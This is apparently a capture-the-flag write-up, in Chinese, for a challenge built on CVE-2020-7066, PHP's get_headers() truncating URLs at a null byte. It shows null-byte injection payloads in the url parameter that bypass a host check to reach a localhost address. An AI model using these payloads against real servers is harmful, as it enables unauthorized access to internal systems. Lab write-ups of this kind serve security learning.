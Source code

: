 #PHP

hint : cve-2020-7066
cve-2020-7066: 在低于 7.2.29 的 PHP 版本 7.2.x，低于 7.3.16 的 7.3.x 和低于 7.4.4 的 7.4.x 中，将 get_headers（）与用户提供的 URL 一起使用时，如果 URL 包含零（\ 0）字符，则 URL 将被静默地截断。这可能会导致某些软件对 get_headers（）的目标做出错误的假设，并可能将某些信息发送到错误的服务器。

点击链接，返回包头有

```url
Hint: Flag in localhost
```

于是

```url
?url=http://127.0.0.1%00.ctfhub.com
```

返回有

```url
Tips: Host must be end with '123'
```

于是

```url
?url=http://127.0.0.123%00.ctfhub.com
```

